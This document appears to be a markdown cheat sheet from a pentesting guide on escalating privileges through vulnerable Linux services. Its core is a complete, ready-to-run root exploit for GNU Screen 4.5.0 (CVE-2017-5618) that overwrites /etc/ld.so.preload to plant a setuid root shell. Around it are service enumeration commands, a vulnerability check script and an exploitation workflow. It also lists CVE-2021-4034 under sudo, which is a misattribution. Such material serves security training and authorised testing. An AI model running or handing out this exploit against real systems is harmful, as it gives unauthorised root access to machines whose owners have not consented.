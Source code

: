 # ⚙️ Vulnerable Services

## 🎯 Overview

Installed services with known vulnerabilities can provide privilege escalation vectors. Version identification and exploit matching are key to discovering these opportunities.

## 📺 Screen Privilege Escalation (CVE-2017-5618)

### Vulnerability Details
- **Affected**: GNU Screen version 4.5.0
- **Impact**: Local privilege escalation to root
- **Method**: ld.so.preload file overwrite vulnerability

### Version Check
```bash
# Check Screen version
screen -v
# Vulnerable: Screen version 4.05.00 (GNU) 10-Dec-16
```

### Exploitation
```bash
# Download/create screen exploit
cat << 'EOF' > screen_exploit.sh
#!/bin/bash
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << 'LIBEOF' > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
LIBEOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << 'SHELLEOF' > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
SHELLEOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
echo "[+] Triggering..."
screen -ls
/tmp/rootshell
EOF

# Execute exploit
chmod +x screen_exploit.sh
./screen_exploit.sh
```

## 🔍 Service Enumeration

### Version Identification
```bash
# Common vulnerable services
apache2 -v
nginx -v
mysql --version
ssh -V
sudo -V

# Service status
systemctl list-units --type=service --state=running
ps aux | grep -E "(apache|nginx|mysql|screen)"
```

### Package Version Check
```bash
# Installed package versions
dpkg -l | grep -E "(screen|apache|nginx|mysql)"
rpm -qa | grep -E "(screen|apache|nginx|mysql)"  # RHEL/CentOS

# Specific package info
dpkg -l screen
apt show screen
```

## 🚨 Common Vulnerable Services

### Screen 4.5.0
- **CVE**: CVE-2017-5618
- **Exploit**: ld.so.preload overwrite
- **Impact**: Root shell

### Apache/Nginx
```bash
# Check for vulnerable modules
apache2 -M
nginx -T

# Look for known vulnerable versions
apache2 -v | grep -E "(2.2|2.4.0-2.4.29)"
```

### MySQL/MariaDB
```bash
# Version check for known CVEs
mysql --version | grep -E "(5.1|5.5|5.6)"

# User-defined functions (UDF) exploitation
# If MySQL runs as root
```

### SSH
```bash
# Check for vulnerable OpenSSH versions
ssh -V 2>&1 | grep -E "(OpenSSH_[1-7]\.|OpenSSH_8\.[0-3])"
```

## 🔧 Exploitation Framework

### Service Exploit Workflow
```bash
# 1. Service discovery
ps aux | grep root | grep -v "^\["

# 2. Version identification  
service_name -v
service_name --version

# 3. CVE research
searchsploit service_name
# Check ExploitDB, GitHub

# 4. Exploit adaptation
# Modify exploit for target environment

# 5. Execution
# Run exploit and verify escalation
```

### Quick Vulnerability Check
```bash
#!/bin/bash
echo "=== VULNERABLE SERVICES CHECK ==="

echo "[+] Screen version:"
screen -v 2>/dev/null

echo "[+] Apache version:"  
apache2 -v 2>/dev/null | head -1

echo "[+] Nginx version:"
nginx -v 2>&1

echo "[+] MySQL version:"
mysql --version 2>/dev/null

echo "[+] SSH version:"
ssh -V 2>&1 | head -1

echo "[+] Sudo version:"
sudo -V 2>/dev/null | head -1

echo "[+] Running services as root:"
ps aux | grep root | grep -E "(apache|nginx|mysql|screen|ssh)" | head -5
```

## 🎯 Exploitation Targets

### High-Impact Services
- **Screen 4.5.0** - Direct root exploit
- **Apache < 2.4.30** - Various module vulnerabilities
- **MySQL/MariaDB** - UDF exploitation if root
- **Sudo < 1.9.5** - Multiple CVEs available
- **OpenSSH** - Various authentication bypasses

### Service-Specific Exploits
```bash
# Screen 4.5.0
./screen_exploit.sh

# Sudo vulnerabilities  
# CVE-2021-4034, CVE-2021-3156, etc.

# Apache modules
# mod_rewrite, mod_ssl vulnerabilities

# Custom services
# Often have poor security practices
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Version checks for common vulnerabilities
screen -v | grep "4.05.00"  # Vulnerable to CVE-2017-5618
sudo -V | grep -E "1\.[0-8]\."  # Multiple CVEs

# Running root services
ps aux | grep "^root" | grep -v "^\[" | head -10
```

### Emergency Exploitation
```bash
# If Screen 4.5.0 found
./screen_exploit.sh  # Immediate root

# If vulnerable sudo found
# Check CVE-2021-4034, CVE-2021-3156 exploits

# Custom service analysis
strings /path/to/service | grep -i "password\|key"
ltrace /path/to/service
```

---

*Vulnerable services provide direct privilege escalation opportunities - outdated software versions combined with known exploits often result in immediate root access.* 